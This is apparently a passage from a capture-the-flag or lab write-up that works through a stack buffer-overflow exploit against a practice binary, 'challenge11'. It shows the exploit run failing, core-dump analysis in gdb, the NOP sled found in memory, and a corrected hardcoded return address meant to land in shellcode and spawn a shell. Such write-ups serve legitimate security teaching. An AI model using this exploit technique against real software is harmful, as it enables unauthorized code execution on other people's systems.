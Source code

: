 Success!


## Test exploit without gdb

Lets test it without gdb:

```
root@hlUbuntu32:~/challenges/challenge11# ./challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
Segmentation fault (core dumped)
```

Ouch, no shell. We have the analyze the core file.

```
root@hlUbuntu32:~/challenges/challenge11# ulimit -c unlimited
root@hlUbuntu32:~/challenges/challenge11# ./challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
Segmentation fault (core dumped)
```

This will generate a corefile
```
root@hlUbuntu32:~/challenges/challenge11# gdb -q challenge11 core
Reading symbols from challenge11...(no debugging symbols found)...done.
[New LWP 14378]
Core was generated by `./challenge11...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffffd836 in ?? ()
(gdb) x/8x $eip
0xffffd836:     0x00000000      0x00000000      0x68632f2e      0x656c6c61
0xffffd846:     0x3165676e      0x90900031      0x90909090      0x90909090
```

We can simple look where EIP is pointing, and realize that the actual shellcode
seems to be several bytes behind the current EIP (0x90909090).

```
(gdb) x/8x $eip+0x16
0xffffd84c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd85c:     0x90909090      0x90909090      0x90909090      0x90909090
```

Therefore, lets adjust the exploit once again:

Replace:
```
ret_addr = "\x36\xd8\xff\xff"
```

with:
```
ret_addr = "\x4c\xd8\xff\xff"
```
